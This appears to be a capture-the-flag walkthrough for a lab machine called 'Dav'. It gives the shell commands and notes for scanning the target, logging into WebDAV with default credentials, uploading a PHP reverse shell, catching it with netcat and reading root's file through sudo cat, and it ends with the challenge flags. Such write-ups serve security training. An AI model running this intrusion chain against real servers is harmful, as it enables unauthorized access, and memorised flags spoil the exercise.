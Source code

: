 # Dav - Easy

```shell
nmap -T4 -p- -A -v 10.10.42.227

gobuster dir -u http://10.10.42.227 -w /usr/share/wordlists/dirb/common.txt -x txt,php,html,bak -t 50

hashcat -a 0 -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
#unable to crack hash

davtest -url http://10.10.42.227/webdav -auth wampp:xampp

cadaver http://10.10.42.227/webdav
#give creds

put reverse-shell.php

#setup listener before executing reverse shell
nc -nvlp 4444

#visiting the uploaded shell gives us reverse shell
whoami
#www-data

python -c 'import pty;pty.spawn("/bin/bash")'

ls /home
#check user directories

cd /home/merlin
#get user flag

#use linpeas.sh for privesc

sudo -l
#we can run cat as root

sudo cat /root/root.txt
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.18 (Ubuntu)

* Using feroxbuster to enumerate the webpage on port 80, we do not get anything on the home page.

* We do get a page /webdav, with status code 401 (unauthorized).

* Now, visiting /webdav, we are greeted with a basic http authentication.

* We can search for default webdav creds, we get results such as jigsaw:jigsaw, wampp:xampp and admin:admin

* Trying one of these creds allow access to /webdav.

* In /webdav, we get a file named passwd.dav, which contains a hash for username 'wampp'.

* Googling the format of hash shows that this is a Apache MD5 hash; we can use hashcat to crack it, but we are unable to.

* We can check for 'webdav exploits' on Google, and we get a few exploit results.

* We can follow the exploit given on NullByte blog; we need to upload a reverse-shell to /webdav and execute it.

* We can test if it works by using ```davtest``` - and we are able to upload PHP files.

* Using ```cadaver```, we can upload files to /webdav; by uploading reverse-shell file, we get shell on our listener as www-data.

* We have two users - merlin and wampp; the latter user does not have anything significant.

* We can get user flag from merlin's directory.

* linpeas.sh can be used to check for any privesc routes.

* Checking what commands we can run as sudo, we can see that ```cat``` can be run without any password as root.

* Using exploit from GTFObins, we can get root flag.

```markdown
1. user.txt - 449b40fe93f78a938523b7e4dcd66d2a

2. root.txt - 101101ddc16b0cdf65ba0b8a7af7afa5
```
